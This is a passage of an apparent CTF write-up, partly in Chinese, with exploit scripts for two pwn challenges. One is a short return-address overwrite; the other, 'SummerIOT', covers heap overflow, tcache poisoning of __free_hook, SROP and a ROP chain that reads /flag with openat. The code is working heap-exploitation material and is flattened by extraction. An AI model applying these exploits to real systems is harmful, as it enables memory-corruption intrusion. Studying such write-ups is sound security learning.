sh.recv(x)def sa (a, b ): return sh.sendafter(a, b)def sla (a, b ): return sh.sendlineafter(a, b)def lg (a, b ): return print ("\033[1;35m{} ==> {}\033[0m" .format ((a), b))def int2bytes (num ): return str (num).encode('utf-8' ) def malloc (size, content ): sla() def edit (id , content sla() def free (id sla() def show (id sla() sla(b'3.show\n' , b'1' ) sn(b'a' * 8 ) sla(b'3.show\n' , b'2' ) ru(b'aaaaaaaa' ) base_addr = u64(rv(6 ).ljust(8 , b'\x00' )) lg('base_addr' , hex (base_addr)) shell = base_addr - 0x4c52 lg('shell_addr' , hex (shell)) sl(b'6' ) sla(b'leave lase message\n' , b'a' * 0x18 + p64(shell + 8 )) sh.interactive()
gift
SummerIOT 分析 创建 note 时存在堆溢出。
思路
创建多个堆块构造堆块重叠，获得 Unsortedbin 进行相关 leak
构造 Tcache Poisoning 劫持 __free_hook 为 gets ，去除 \x00 截断限制 __
利用 gets 在堆块上布置 rop 链子，free 掉 __free_hook 可以更改为我们的 gadget 进行 SROP
open 系统调用被 ban ，改用 openat
EXP 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 import reimport osfrom pwn import *from LibcSearcher import *se = lambda data :p.send(data) sa = lambda delim,data :p.sendafter(delim, data) sl = lambda data :p.sendline(data) sla = lambda delim,data :p.sendlineafter(delim, data) sea = lambda delim,data :p.sendafter(delim, data) rc = lambda numb=4096 :p.recv(numb) ru = lambda delims, drop=True :p.recvuntil(delims, drop) uu32 = lambda data :u32(data.ljust(4 , '\0' )) uu64 = lambda data :u64(data.ljust(8 , '\0' )) lg = lambda name,data : p.success(name + ': \033[1;36m 0x%x \033[0m' % data) def debug (breakpoint ='' glibc_dir = '~/Exps/Glibc/glibc-2.35/' gdbscript = 'directory %smalloc/\n' % glibc_dir gdbscript += 'directory %sstdio-common/\n' % glibc_dir gdbscript += 'directory %sstdlib/\n' % glibc_dir gdbscript += 'directory %slibio/\n' % glibc_dir elf_base = int (os.popen('pmap {}| awk \x27{{print \x241}}\x27' .format (p.pid)).readlines()[1 ], 16 ) if elf.pie else 0 gdbscript += 'b *{:#x}\n' .format (int (breakpoint ) + elf_base) if isinstance (breakpoint , int ) else breakpoint gdb.attach(p, gdbscript) time.sleep(1 ) elf = ELF('./pwn' ) context(arch = elf.arch, os = 'linux' ,log_level = 'debug' ,terminal = ['tmux' , 'splitw' , '-hp' ,'62' ]) p = remote('127.0.0.1' ,8087 ) def login (): package = '''POST /Login.cgi HTTP/1.1 \nUser-Agent:IceCreeeam Data:Sup3rP@ssw0rd\n ''' .replace('\n' ,'\r\n' ) sleep(0.3 ) sla('> ' ,package) def add (id ,data package = '''POST /Panel.cgi HTTP/1.1 \nUser-Agent:IceCreeeam Data:1#{}#{}\n ''' .replace('\n' ,'\r\n' ).format (id ,data) sleep(0.3 ) sla('> ' ,package) def dele (id package = '''POST /Panel.cgi HTTP/1.1 \nUser-Agent:IceCreeeam Data:2#{}\n ''' .replace('\n' ,'\r\n' ).format (id ) sleep(0.3 ) sla('> ' ,package) def show (id package = '''POST /Panel.cgi HTTP/1.1 \nUser-Agent:IceCreeeam Data:3#{}\n ''' .replace('\n' ,'\r\n' ).format (id ) sleep(0.3 ) sla('> ' ,package) login() for i in range (7 ): add(i,'chunk%d' %i) add(7 ,'chunk7' ) add(7 ,'chunk8' ) add(7 ,'chunk9' ) add(7 ,'chunk10' ) add(7 ,'chunk11' ) dele(0 ) add(0 ,'u' *0x78 +p64(0x80 *9 +1 )) dele(1 ) add(1 ,'u' ) show(1 ) libc_leak = uu64(ru('\x7f' ,drop=False )[-6 :]) libc_base = libc_leak - 0x1e1075 lg('libc_leak' ,libc_leak) lg('libc_base' ,libc_base) libc = ELF('./libc-2.33.so' ) libc.address = libc_base system_addr = libc.sym.system bin_sh = libc.search('/bin/sh' ).next () dele(1 ) add(1 ,'u' *0x10 ) show(1 ) ru('u' *0x10 ) heap_leak = uu64(rc(6 )) heap_base = heap_leak - 0x420 lg('heap_leak' ,heap_leak) lg('heap_base' ,heap_base) dele(5 ) dele(4 ) dele(3 ) add(3 ,'u' *0x80 +p64((heap_base>>12 )^(libc.sym.__free_hook))) add(3 ,'u' *0x80 +p64((heap_base>>12 )^(libc.sym.__free_hook))) add(4 ,p64(libc.sym.gets)) leave_ret = libc_base + 0x000000000005525c magic = libc_base + 0x14a0a0 fuck = SigreturnFrame() fuck.rip = libc.sym.read fuck.rdx = 0x300 fuck.rdi = 0 fuck.rsi = heap_base + 0x300 fuck.rsp = heap_base + 0x300 payload = flat( ['a' *0x80 ]+[0 ,heap_base+0x430 ,-1 ,-1 ,libc.sym.setcontext+61 ,str (fuck)[0x28 :]] ) sleep(1 ) dele(0 ) sl(payload) sleep(2 ) dele(4 ) sl(p64(magic)) rdi = libc_base + 0x0000000000028a55 rsi = libc_base + 0x000000000002a4cf rdx = libc_base + 0x00000000000c7f32 jmp_rsi = libc_base + 0x00000000000506b1 rop_chain = flat([ rdi,heap_base,rsi,0x1000 ,rdx,7 ,libc.sym.mprotect,rdi,0 ,rsi,heap_base,rdx,0x200 ,libc.sym.read,jmp_rsi ]) dele(1 ) sleep(2 ) sl(rop_chain) sleep(2 ) sl(asm(shellcraft.pushstr('/flag' )+shellcraft.syscall('0x101' ,'0' ,'rsp' ,'0' )+shellcraft.read('rax' ,'rsp' ,'0x50' )+shellcraft.write('1' ,'rsp' ,'0x50' ))) p.interactive() ''' 0x0000000000044c70 : pop rax ; ret 0x000000000002a334 : pop rax ; ret 0xffff 0x00000000000266e0 : pop rbp ; ret 0x000000000002682f : pop rbp ; ret 0x1b 0x000000000003418f : pop rbx ; ret 0x000000000008dd61 : pop rbx ; ret 0xffff 0x0000000000028a55 : pop rdi ; ret 0x00000000000c7f32 : pop rdx ; ret 0x000000000002a4cf : pop rsi ; ret 0x0000000000033af2 : pop rsp ; ret 0x0000000000026699 : ret '''